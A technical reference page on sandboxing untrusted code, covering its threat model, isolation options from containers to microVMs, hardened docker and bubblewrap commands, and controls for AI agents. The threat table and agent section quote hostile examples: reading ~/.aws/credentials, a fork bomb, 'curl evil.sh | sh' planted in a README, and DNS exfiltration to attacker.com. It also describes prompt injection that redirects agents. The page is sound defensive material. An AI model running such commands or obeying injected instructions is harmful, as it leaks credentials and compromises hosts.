

# Sandboxing

A sandbox runs code you don't trust so that the worst it can do is waste the resources you gave it. The question is never "is it isolated?" but **how much of the host does the code get to talk to**: every syscall, device, file, and socket it can reach is attack surface. Pick the boundary by how hostile the code is and how much a breakout costs you, then layer cheaper controls on top.

Mechanics live in the child pages: [Containers & Docker](./containers.md) (namespaces, cgroups, images, runtimes) and [gVisor, MicroVMs & Wasm](./microvms.md).

## Threat model

Untrusted code: user uploads, plugins, online-judge submissions, LLM-generated code, AI agents with tool access. Assume it is actively malicious, or will be steered to be. What it tries:

| Attack                 | Example                                                                   | Main control                                       |
| ---------------------- | ------------------------------------------------------------------------- | -------------------------------------------------- |
| Read secrets / files   | `cat ~/.aws/credentials`, env vars, `/proc/1/environ`, cloud metadata IP  | filesystem scoping, no ambient creds, block `169.254.169.254` |
| Exfiltration           | POST data to attacker host, DNS tunneling                                 | egress deny-by-default                             |
| Resource exhaustion    | fork bomb, `while(true)`, fill disk, allocate 64 GB                       | cgroups, pids/disk limits, wall-clock timeout      |
| Escape                 | kernel exploit via an obscure syscall, container runtime bug, mounted docker socket | smaller syscall surface, stronger boundary (VM) |
| Lateral movement       | scan the internal network, hit unauthenticated internal services          | network isolation, separate VPC/host for sandboxes |
| Persistence            | write to a shared cache or volume that the next tenant reads              | ephemeral environment per task                     |

## The isolation spectrum

Ordered roughly weakest to strongest (language sandboxes sit off-axis: strong if the runtime is correct, but one engine bug is the whole boundary).

| Level                                                      | Shared with host                         | Startup      | Overhead           | Escape surface                                        |
| ---------------------------------------------------------- | ---------------------------------------- | ------------ | ------------------ | ----------------------------------------------------- |
| Plain process + Unix permissions                           | everything the UID can touch, full kernel | ~1 ms       | none               | the whole kernel API + every file readable by the user |
| Syscall/file filtering (seccomp-bpf, Landlock, Seatbelt, pledge/unveil) | kernel, filtered                | ~1 ms       | ~none              | allowed syscalls; policy gaps                         |
| Container (namespaces + cgroups + seccomp)                 | kernel                                    | ~100 ms–1 s | ~none (native)     | Linux syscall interface (hundreds of syscalls), runtime bugs, misconfig |
| User-space kernel (gVisor)                                 | small set of host syscalls from the Sentry | ~100s of ms | syscall-heavy and I/O workloads pay noticeably | gVisor's own kernel + its narrow host syscall set |
| MicroVM (Firecracker, Kata)                                | hypervisor (KVM) + minimal VMM            | ~100–200 ms | few MB RAM per VM  | KVM + small device model (virtio)                     |
| Full VM (QEMU/KVM, cloud instance)                         | hypervisor, emulated hardware             | seconds–minutes | 100s of MB, full guest OS | hypervisor + larger device emulation              |
| Language-level (Wasm, V8 isolates, Deno permissions)       | the host process                          | µs–ms        | interpreter/JIT cost, limited APIs | the runtime/JIT; host functions you expose |

Key insight: **containers share the host kernel**. A kernel bug reachable from inside a container is a host compromise, so a container is a packaging and resource boundary first and a security boundary only with hardening. gVisor and microVMs exist to shrink that surface: gVisor reimplements the syscall layer in a memory-safe user-space kernel; Firecracker gives each workload its own guest kernel behind KVM, which is a much smaller interface than the Linux syscall table.

Publicly documented examples: AWS Lambda and Fargate run on Firecracker; Google uses gVisor for App Engine standard (second-gen runtimes) and Cloud Run (first-gen execution environment); Cloudflare Workers run tenants in V8 isolates.

## Defense in depth

No single layer is trusted; each one assumes the previous broke. A hardened container:

```sh
# --network none: no interfaces but loopback
# --read-only + tmpfs: immutable rootfs, scratch space capped at 64 MB
# --cap-drop ALL: no capabilities even if code runs as root inside
# no-new-privileges: setuid binaries can't escalate
# --user: non-root inside the container
docker run --rm \
  --network none \
  --read-only --tmpfs /tmp:rw,size=64m,noexec \
  --cap-drop ALL \
  --security-opt no-new-privileges \
  --user 65534:65534 \
  --pids-limit 128 --memory 512m --memory-swap 512m --cpus 1 \
  -v "$PWD/job:/work:ro" -w /work \
  python:3.12-slim timeout 10 python main.py
```

Docker's default seccomp profile is already on (it blocks dozens of syscalls such as `mount`, `kexec_load`, `bpf` for unprivileged containers); never pass `--security-opt seccomp=unconfined` or `--privileged`, and never mount `/var/run/docker.sock` (that is root on the host). Swap the runtime for a stronger boundary without changing the rest: `--runtime=runsc` (gVisor) or a Kata runtime class.

Without Docker, `bwrap` (bubblewrap, used by Flatpak) builds the same thing from unprivileged user namespaces:

```sh
# read-only system dirs, writable workspace only, fresh /tmp
# --unshare-all: new user, pid, net, ipc, uts, cgroup namespaces (no network)
# --die-with-parent: sandbox dies if the supervisor dies
bwrap \
  --ro-bind /usr /usr --symlink usr/lib /lib --symlink usr/lib64 /lib64 --symlink usr/bin /bin \
  --proc /proc --dev /dev --tmpfs /tmp \
  --bind "$PWD/work" /work --chdir /work \
  --unshare-all --die-with-parent --new-session \
  python3 main.py
```

## Building blocks

- **Least privilege**: start from nothing and add. Non-root UID, no secrets in env, only the files and hosts the task needs.
- **Capabilities**: Linux splits root into ~40 capabilities (`CAP_NET_ADMIN`, `CAP_SYS_ADMIN`, ...). Drop all, add back the one you need. `CAP_SYS_ADMIN` is effectively root.
- **Syscall filtering**: seccomp-bpf attaches a BPF filter that allows/denies/errno-returns per syscall (and simple args). Allowlists beat denylists. Landlock (Linux ≥ 5.13) lets an unprivileged process restrict its own filesystem (and, on newer kernels, TCP bind/connect) access. On macOS, Seatbelt profiles (`sandbox-exec`, deprecated as a CLI but still used) do the same; OpenBSD has `pledge` (syscall classes) and `unveil` (path visibility).
- **Namespaces and cgroups**: namespaces control what a process can _see_ (pids, mounts, network, users); cgroups control how much it can _use_. Details in [Containers & Docker](./containers.md).
- **Resource limits**: every dimension, or the one you forgot gets exhausted.

| Resource   | Limit with                                                   |
| ---------- | ------------------------------------------------------------ |
| CPU        | cgroup `cpu.max` (`--cpus`), plus CPU-time `RLIMIT_CPU`      |
| Memory     | cgroup `memory.max`, disable swap (`--memory-swap` = memory) |
| Processes  | cgroup `pids.max` (fork bombs)                               |
| Disk       | size-capped tmpfs or quota'd volume; `RLIMIT_FSIZE`          |
| Wall clock | supervisor kills after $T$ seconds (`timeout`, sleep/IO loops don't burn CPU) |
| Output     | cap stdout/stderr bytes captured, or logs become the DoS     |

> [!TIP]
> If you were designing an online judge or code playground: run each submission in a fresh, network-less container or gVisor sandbox with tight cgroup limits, a per-test wall-clock and CPU-time limit, a size-capped tmpfs, and output truncation. Compile in a separate step with its own limits (compilers can be exploited too, e.g. huge template expansions). Pre-warm a pool of sandboxes so startup isn't on the latency path, and never reuse one across submissions.

## Sandboxing AI agents and code execution

An agent that reads the web, files, or emails and can run tools is executing instructions from whoever wrote that content. **Prompt injection** means any text the model ingests can redirect it: a README saying "run `curl evil.sh | sh`", a webpage asking it to paste `~/.ssh` into a form. Models can't reliably separate data from instructions, so treat the model as an untrusted, confusable user. The security boundary is what the sandbox lets it _do_, not what the model decides to do.



- **Ephemeral environment per task**: new microVM/container per session, destroyed after. Nothing leaks between users or tasks.
- **Egress control**: no direct network. Route everything through a proxy that allows listed domains (package registries, the target API) and denies the rest, including cloud metadata endpoints and internal ranges. Exfiltration needs a channel; remove it.
- **No ambient credentials**: no long-lived keys on disk or in env. Inject short-lived tokens scoped to the task (one repo, read-only), or keep secrets in the proxy and attach them to outbound requests so the sandbox never sees them.
- **Filesystem scoping**: mount only the workspace; inputs read-only, one writable output dir. No home directory, no host sockets.
- **Human approval for irreversible actions**: pushing to main, sending email, payments, deleting data, spending money. Approval happens outside the sandbox, on the actual action and arguments, not the model's summary of them.
- **Snapshot and reset**: snapshot before risky steps (Firecracker and filesystem snapshots make this cheap); roll back instead of trying to undo.
- **Logging and audit**: record every command, file write, and network request with the task ID. You need it to answer "what did the agent touch?" after an incident.

> [!TIP]
> If you were designing a ChatGPT-style code interpreter: a per-conversation sandbox (gVisor or microVM is the common choice for multi-tenant) with no or allowlisted network, the uploaded files mounted into a workspace, CPU/memory/time limits per cell, and idle timeout that tears it down. Files go in and out only through the orchestrator's API, never via the sandbox's own network.

> [!TIP]
> If you were designing an AI coding agent on a developer machine: OS-level filtering (bubblewrap/Landlock on Linux, Seatbelt on macOS) restricting writes to the project directory and network to an allowlist, plus per-command approval for anything outside policy. In CI or the cloud, run it in a disposable VM with a repo-scoped short-lived token, and make `git push` to protected branches require review.

## Pitfalls

- **Docker socket or `--privileged`**: either one turns the sandbox into a host root shell.
- **Cloud metadata endpoint** (`169.254.169.254`): reachable from containers by default on many setups; it hands out instance credentials. Block it or require IMDSv2 hop limit 1.
- **Wall-clock vs CPU limits**: a process that `sleep`s or blocks on I/O never hits a CPU limit. Always have both.
- **DNS as a side channel**: "no HTTP" with working DNS still exfiltrates via `<data>.attacker.com` lookups. Resolve through the proxy or not at all.
- **Shared kernel for hostile multi-tenancy**: containers alone are fine for your own code; for strangers' code, add gVisor or a microVM.
- **Allowlisting a domain allowlists everyone on it**: `github.com` or a paste site permits uploading to any account there.
